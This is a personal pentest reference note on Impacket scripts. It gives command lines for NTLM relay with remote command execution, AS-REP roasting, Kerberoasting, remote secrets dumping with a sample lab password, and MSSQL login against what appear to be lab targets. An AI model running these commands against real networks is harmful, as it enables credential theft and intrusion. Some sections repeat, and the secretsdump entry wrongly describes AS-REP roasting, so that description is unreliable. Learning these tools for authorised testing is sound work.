 
# Python Impacket
Init.

Python [impacket](https://github.com/fortra/impacket/tree/master) is an open-source collection of scripts designed to interact with common [networking](/networking/OSI/network-layer.md) protocols. Many of the scripts can be used in pen-testing, especially against Windows targets.
## Common Scripts
(I'm keeping a list here for my own use/ reference)
### [`smbrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/smbrelayx.py)
### [`ntlmrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
- `-i`: interactive (will give you a shell)
### [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
Get's TGTs for users in an [active-directory](../../../hidden/HTB-notes/active-directory.md) environment who have *[kerberos](../../../networking/protocols/kerberos.md) pre-authentication turned off.* This is useful to know because having pre-auth turned off means we can ask for their TGTs without supplying a password. 

Once you have a TGT you can crack it with something like [john](../cracking/john.md).
#### Example
```bash
python3 GetNPUsers.py 
```
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
```bash
impacket-GetUserSPNs -usersfile [users.lst](https://users.lst) -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass
```
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
Will attempt to dump hashes from a remote machine *without executing an agent there*. Gets [kerberos](../../../../networking/protocols/kerberos.md) TGTs from users which have the *`UF_DONT_REQUIRE_PREAUTH`* (which means they have pre-authentication turned off). 

From these types of users we can get their *AS_REP* which is *partially encrypted using their password*. 

Once we have the AS-REP, we can give it to [hashcat](../../cracking/tools/hashcat.md) for cracking (and getting the plaintext password).
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
```bash
impacket-GetUserSPNs -usersfile users.lst -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass
```
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
```bash
secretsdump.py 'egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
````
- The domain, user, password, and IP should be surround in quotes
### `mssqlclient.py`
[`mssqlclient.py`](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) can be used to connect to a remote [MSSQL](../../../../CLI-tools/windows/MSSQL.md) server (on a Windows target).
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (SQLPLAYGROUND\Administrator  dbo@master)>
```
- `-windows-auth` will authenticate you if you supply a username and password *and force [NTLM](../../../../networking/protocols/NTLM.md) authentication*.

> [!Resources]
> - [Impacket GitHub](https://github.com/fortra/impacket/tree/master)